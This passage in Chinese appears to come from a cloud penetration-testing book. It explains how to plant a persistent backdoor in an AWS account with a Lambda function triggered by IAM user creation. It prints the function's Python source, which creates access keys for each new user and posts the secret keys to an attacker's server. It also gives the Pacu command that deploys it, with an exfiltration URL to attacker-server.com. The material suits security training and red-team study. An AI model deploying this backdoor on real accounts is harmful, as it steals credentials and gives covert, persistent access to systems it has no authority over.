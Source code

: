 从上一节中的第一点开始，我们希望在可能值得利用的事件上触发 Lambda 函数。我们将把这一点与本章前面描述的持久化方法联系起来，因此对于后门 IAM 用户，可能值得利用的事件可能是创建新用户时。我们可以使用该事件（使用 CloudWatch 事件）触发 Lambda 函数，然后运行我们的代码，该代码设置为自动向该用户添加一组新的访问密钥，然后将这些凭据导出到我们指定的服务器。

这个场景是这样联系在一起的：

1.  攻击者（我们）在目标帐户中创建恶意 Lambda 函数
2.  每次创建新 IAM 用户时，攻击者都会创建一个触发器来运行 Lambda 函数
3.  攻击者在其控制的服务器上设置侦听器，该服务器将等待凭据
4.  2 天过去
5.  环境中的常规用户将创建新的 IAM 用户
6.  攻击者的 Lambda 函数被触发
7.  该函数向新创建的用户添加一组访问密钥
8.  该函数使用创建的凭据向攻击者的服务器发出 HTTP 请求

现在，攻击者只是袖手旁观，等待凭据流入其服务器。

这似乎是一个复杂的过程，但用最简单的术语来说，您可以将其视为建立持久性的持久方法。首先，我们已经了解了如何建立持久性，因此 Lambda 添加到等式中的所有内容都是能够连续地实现持久性。

对于触发事件的函数（例如正在创建的用户），必须创建 CloudWatch 事件规则。CloudWatch 事件规则基本上是说，如果我在环境中看到这种情况，就执行此操作。为了使 CloudWatch 事件规则正常工作，我们还需要在`us-east-1`区域启用 CloudTrail 日志记录。这是因为我们是由 IAM 事件（`iam:CreateUser`触发的，IAM 事件只传递给`us-east-1`CloudWatch 事件。在大多数情况下，将启用 CloudTrail 日志记录。最好的做法是在所有 AWS 区域启用它，如果 CloudTrail 未启用，那么您可能处于一个不太完善的环境中，其中还有其他问题需要关注。

# 使用 Pacu 部署我们的后门

创建后门 Lambda 函数、创建 CloudWatch 事件规则以及连接这两个规则的过程每次都需要手动完成，这对我们来说都是自动化的并集成到 Pacu 中。

我们将要研究的第一个 Pacu 模块称为`lambda__backdoor_new_users`，它基本上只是自动创建一个 Lambda 后门的过程，该后门为环境中新创建的用户打开并过滤凭据。如果我们查看 Pacu 模块使用的 Lambda 函数的源代码，我们会看到以下内容：

```
import boto3
from botocore.vendored import requests
def lambda_handler(event,context):
 if event['detail']['eventName']=='CreateUser':
 client=boto3.client('iam')
 try:
 response=client.create_access_key(UserName=event['detail']['requestParameters']['userName'])
 requests.post('POST_URL',data={"AKId":response['AccessKey']['AccessKeyId'],"SAK":response['AccessKey']['SecretAccessKey']})
 except:
 pass
 return
```

代码所做的只是检查触发它的事件是否是`iam:CreateUser`API 调用，如果是，它将尝试使用 Python`boto3`库为新创建的用户创建凭据。一旦成功，它会将这些凭证发送到攻击者的服务器，由`POST_URL`指示（Pacu 在启动函数之前替换该字符串）。

模块代码的其余部分设置所有必需的资源*或*删除它知道你进入帐户的任何后门，有点像清理模式。

为了接收我们正在创建的凭据，我们需要在我们自己的服务器上启动一个 HTTP 侦听器，因为凭据在主体中。之后，我们可以运行以下 Pacu 命令，并希望凭证开始涌入：

```
run lambda__backdoor_new_users --exfil-url http://attacker-server.com/
```

当 Pacu 命令完成时，目标帐户应该立即设置 Lambda 后门。一旦环境中的其他人创建了一个新的 IAM 用户，我们就会收到一个返回到 HTTP 侦听器的请求，请求中包含这些凭据。
